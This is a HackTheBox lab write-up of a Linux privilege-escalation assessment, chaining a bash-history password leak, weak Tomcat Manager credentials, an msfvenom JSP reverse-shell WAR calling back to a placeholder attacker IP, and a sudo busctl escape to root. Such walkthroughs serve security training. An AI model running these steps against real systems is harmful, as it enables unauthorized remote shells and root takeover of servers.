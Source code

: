 # Day31 - Linux Local Privilege Escalation (HTB Skill Assessment)

- **Platform**: HackTheBox  
- **Category**: Linux / Privilege Escalation  
- **Difficulty**: Medium  
- **Date**: 2025-05-31  
- **Tools Used**: SSH, bash history, Tomcat exploitation, msfvenom, sudo misconfigurations  

---

## Summary
This assessment simulated a penetration test against a Linux web server. Starting with a **low-privileged SSH account**, I escalated through multiple misconfigurations and flaws until achieving **root access**, collecting five flags along the way.  

---

## 🔑 Privilege Escalation Chain
```
[Low-Privileged User] 
     ↓  (flag1 in .config)  
[Bash History Leak → Barry creds] 
     ↓  (flag2)  
[World-Readable Logs] 
     ↓  (flag3)  
[Tomcat Misconfig → WAR Reverse Shell] 
     ↓  (flag4)  
[Sudo busctl Misuse → Root Shell] 
     ↓  (flag5 in /root)
```

---

## Enumeration
- Logged in as the provided low-privileged user via SSH.  
- Observed file system layout and accessible directories with:  
  ```bash
  ls -la
  ```  

---

## Exploitation

### Flag 1 — User Config Files
- Located `flag1.txt` in the user’s `.config` directory.  
- Readable directly with the initial account.  

---

### Flag 2 — Bash History Disclosure
- Found `.bash_history` in user *barry*’s home directory.  
- Exposed Barry’s plaintext password.  
- Used the credentials to switch user:  
  ```bash
  su barry
  ```  
- Retrieved `flag2.txt`.  

---

### Flag 3 — Log Files
- Navigated to `/var/log`.  
- `flag3.txt` was stored among log files, world-readable.  

---

### Flag 4 — Tomcat Misconfiguration
- Noticed Tomcat service running on port 8080.  
- Checked `/etc/tomcat9/tomcat-users.xml` → contained weak credentials.  
- Logged into Tomcat Manager with exposed creds.  
- Generated a reverse shell payload with msfvenom:  
  ```bash
  msfvenom -p java/jsp_shell_reverse_tcp LHOST=<attacker-ip> LPORT=9443 -f war -o back.war
  ```  
- Uploaded and executed the WAR file.  
- Established a shell via netcat listener, and found `flag4.txt`.  

---

### Flag 5 — Privilege Escalation to Root
- Upgraded shell for stability:  
  ```bash
  python3 -c 'import pty; pty.spawn("/bin/bash")'
  ```  
- Checked sudo privileges with:  
  ```bash
  sudo -l
  ```  
- Discovered ability to run `busctl` as root without a password.  
- Exploited `busctl` escape to root shell:  
  ```bash
  sudo busctl --show-machine
  !/bin/bash
  ```  
- Verified with `id`, accessed `/root`, and retrieved `flag5.txt`.  

- **Final Flag:** `HTB{REDACTED}`  

---

## Lessons Learned
- Always check hidden files (`.config`, `.bash_history`) — they frequently expose sensitive data.  
- Misconfigured Tomcat servers are a common enterprise weakness; uploading malicious WAR files provides straightforward RCE.  
- Sudo misconfigurations with tools like `busctl` can be directly escalated to root.  
- Escalation often comes from **layered small wins**: history leaks → service configs → privilege misuse.  
